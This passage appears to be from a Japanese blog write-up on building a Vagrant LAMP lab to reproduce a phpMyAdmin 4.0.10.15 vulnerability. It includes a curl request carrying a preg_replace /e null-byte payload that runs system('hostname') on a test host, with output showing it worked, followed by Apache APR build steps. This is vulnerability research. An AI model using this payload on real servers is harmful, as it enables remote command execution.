 
```
$ curl -d 'input1=.*%40e%00&input2=system%28%27hostname%27%29%3B' http://vlun.test/test.php

vlun.test
vlun.test

<!DOCTYPE html>
<html lang = “ja”>
<head>
<meta charset = “UFT-8”>
<title>post test</title>
</head>
<body>
<h1>post test</h1>
<form action = "test.php" method = "post">
<input type = "text" name ="input1"><br/>
<input type = "text" name ="input2"><br/>
<input type = "submit" value ="post">
</form>
</body>
</html>
```

### 検証環境構築

#### vagrnt snapshotの導入

検証環境はvagrantで構築しています。環境をよく壊してしまいますので、vagrantでsnapshotをとっておいて不測の事態に備えます。
使い方は[takuan_oshoさんのqiita](http://qiita.com/takuan_osho/items/682b776b41989f0b016f)を参考にしました。

#### ApacheとPHPとMySQL環境の構築

phpMyAdminの4.0.10.15を検証対象として、検証環境を構築します。
phpMyAdminの検証にはLAMP環境(Apache,MySQL,PHP)が必要です。また今回の脆弱性はNULL終端攻撃ができるVersionのPHPのほうが攻撃しやすそうなので、PHPはバージョン5.4.6以下を使います。
[PHPの公式](http://php.net/manual/ja/install.unix.apache2.php)ページと[ksugawara61さんのqiita](http://qiita.com/ksugawara61/items/70f5d1faf192c4ba6ca0)を参考に環境を構築していきます。

 * APR(Apache Protable Runtime)のインストール 

```
$ wget http://ftp.yz.yamagata-u.ac.jp/pub/network/apache//apr/apr-1.5.2.tar.gz
$ tar zxvf apr-1.5.2.tar.gz
$ cd apr-1.5.2
$ ./configure --prefix=/opt/apr-1.5.2
$ make
$ sudo make install
```

 * APR-Utilのインストール

```
$ wget http://ftp.yz.yamagata-u.ac.jp/pub/network/apache//apr/apr-util-1.5.4.tar.gz
$ tar zxvf apr-util-1.5.4.tar.gz
$ cd apr-util-1.5.4
$ ./configure --prefix=/opt/apr-util-1.5.4 --with-apr=/opt/apr-1.5.2
$ make
$ sudo make install
```
